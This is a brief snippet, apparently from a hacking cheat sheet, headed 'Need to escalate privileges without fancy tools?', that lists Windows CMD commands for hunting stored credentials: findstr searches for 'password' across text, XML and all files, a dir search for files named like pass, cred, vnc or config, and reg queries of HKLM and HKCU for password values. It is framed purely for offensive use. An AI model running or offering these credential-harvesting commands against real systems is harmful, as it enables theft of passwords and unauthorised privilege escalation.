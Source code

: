 Need to escalate privileges without fancy tools?
====

1) open CMD and type
----

```
findstr /si password *.txt
findstr /si password *.xml
dir /s *pass* == *cred* == *vnc* == *.config*
findstr /spin "password" *.*
reg query HKLM /f password /t REG_SZ /s
reg query HKCU /f password /t REG_SZ /s
```
